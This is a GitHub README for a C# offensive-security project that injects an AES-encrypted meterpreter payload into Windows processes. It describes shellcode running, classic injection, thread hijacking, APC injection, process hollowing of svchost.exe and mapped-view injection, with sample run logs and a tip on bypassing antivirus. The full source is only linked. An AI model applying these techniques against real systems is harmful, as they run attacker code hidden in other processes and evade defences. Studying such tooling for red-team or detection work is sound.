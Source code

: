 # Shellcode Injection Techniques
A collection of C# shellcode injection techniques. All techniques use an AES encrypted meterpreter payload.

I will be building this project up as I learn, discover or develop more techniques.

**Note:** The project is not intended to be used as-is. If you are going to use any of the techniques there is a better chance of bypassing AV if you create a smaller, customised project with your chosen technique.

## Shellcode Runner
[ShellcodeRunner.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/ShellcodeRunner.cs) : This technique isn't strictly an injection technique (because we execute the shellcode in the same process) but is the simplest of all techniques. We ensure the shellcode uses a fixed memory location in an `unsafe` context. We change the protection on the page where the shellcode is located so we can execute it. We then use a C# delegate function to execute the shellcode.

```
[+] Using technique: ShellcodeInjectionTechniques.ShellcodeRunner
[+] VirtualProtect() - set to PAGE_EXECUTE_READWRITE, shellcode address: 0x20D000418E0
[+] Executing shellcode - memory address: 0x20D000418E0
```

## Classic Injection
[ClassicInjection.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/ClassicInjection.cs) : This technique allocates memory in the target process, injects the shellcode and starts a new thread.

```
[+] Found process: 24484
[+] Using technique: ShellcodeInjectionTechniques.ClassicInjection
[+] VirtualAllocEx(), assigned: 0x23642220000
[+] WriteProcessMemory() - remote address: 0x23642220000
[+] CreateRemoteThread() - thread handle: 0x380
```

## Thread Hijacking
[ThreadHijack.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/ThreadHijack.cs) : This technique hijacks a thread by injection code into the target process, suspends the hijacked thread, sets the instruction pointer (RIP) to our injected code and then resumes the thread.

```
[+] Found process: 11508
[+] Using technique: ShellcodeInjectionTechniques.ThreadHijack
[+] Found thread: 9344
[+] OpenThread() - thread handle: 0x378
[+] VirtualAllocEx(), assigned: 0x1D17AB80000
[+] WriteProcessMemory() - remote address: 0x1D17AB80000
[+] SuspendThread() - thread handle: 0x378
[+] GetThreadContext() - thread handle: 0x378
[+] RIP is: 0x7FFA77D21104
[+] SetThreadContext(), RIP assigned: 0x1D17AB80000
[+] ResumeThread() - thread handle: 0x378
```

## Asychronous Procedure Call Injection
[ACPInjection.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/APCInjection.cs) : This technique is similar to the Thread Hijacking technique. We inject the shellcode into a remote thread, then queue an APC object in the thread. When the thread enters an alertable state (when it calls SleepEx, SignalObjectAndWait, MsgWaitForMultipleObjectsEx, WaitForMultipleObjectsEx, or WaitForSingleObjectEx) it runs our shellcode pointed to by our queued APC object. 

```
[+] Found process: 25320
[+] Using technique: ShellcodeInjectionTechniques.APCInjection
[+] Found thread: 23796
[+] OpenThread() - thread handle: 0x378
[+] VirtualAllocEx(), assigned: 0x24E064D0000
[+] WriteProcessMemory() - remote address: 0x24E064D0000
[+] QueueUserAPC() - thread handle: 0x378
```

## Process Hollowing
[ProcessHollow.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/ProcessHollow.cs) : This technique starts another process in the suspended state (svchost.exe), finds the main thread entry point, injects our shellcode into it then resumes the thread.

```
[+] Using technique: ShellcodeInjectionTechniques.ProcessHollow
[+] CreateProcess(): C:\Windows\System32\svchost.exe
[+] Pointer to ImageBase: 0xD31E956010
[+] ReadProcessMemory() - image base pointer: 0xD31E956010
[+] ImageBase: 0x7FF6116C0000
[+] ReadProcessMemory() - svchost base: 0x7FF6116C0000
[+] EntryPoint: 0xD31E956010
[+] WriteProcessMemory(): 0x7FF6116C4E80
[+] ResumeThread() - thread handle: 0x454
```

## Inter-Process Mapped View
[InterProcessMappedView.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/InterProcessMappedView.cs) : This technique creates a new section in memory, creates a local mapped view of the section, copies our shellcode into the local mapped view and creates a remote mapped view of the local mapped view in the target process. Finally we create a new thread in the target process with the mapped view as the entry point.

```
[+] Found process: 23740
[+] Using technique: ShellcodeInjectionTechniques.InterProcessMappedView
[+] NtCreateSection() - section handle: 0x37C
[+] NtMapViewOfSection() - local view: 0x20CB8E40000
[+] Marshalling shellcode
[+] NtMapViewOfSection() - remote view: 0x22D90310000
[+] RtlCreateUserThread() - thread handle: 0x384
```

## Notes
Remember you will need to start a process to inject to, except when using the shellcode runner or the process hollowing technique (this technique starts a new process in the suspended state).

```
[!] Unable to find process to inject into!
```

When using the shellcode runner or the process hollowing technique you will need to comment out the code in `Program.cs` that looks for the process to inject into:

```csharp
/*
Process[] processes = Process.GetProcessesByName("notepad");

if(processes.Length == 0)
{
  Debug("[!] Unable to find process to inject into!");
  return;
}

Debug("[+] Found process: {0}", new string[] { processes[0].Id.ToString() });
target = processes[0];
*/
```
